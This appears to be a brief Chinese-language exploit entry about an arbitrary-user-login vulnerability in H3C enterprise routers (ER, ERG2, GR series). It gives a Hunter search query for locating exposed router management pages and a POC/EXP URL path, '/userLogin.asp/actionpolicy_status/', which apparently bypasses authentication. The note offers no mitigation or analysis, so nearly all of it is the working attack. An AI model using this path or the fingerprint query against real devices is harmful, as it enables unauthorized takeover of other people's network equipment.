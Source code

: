 # H3C 企业路由器(ER、ERG2、GR系列) 任意用户登录漏洞

## 网络测绘

hunter: app.name="H3C Router Management"

### POC / EXP

```
/userLogin.asp/actionpolicy_status/
```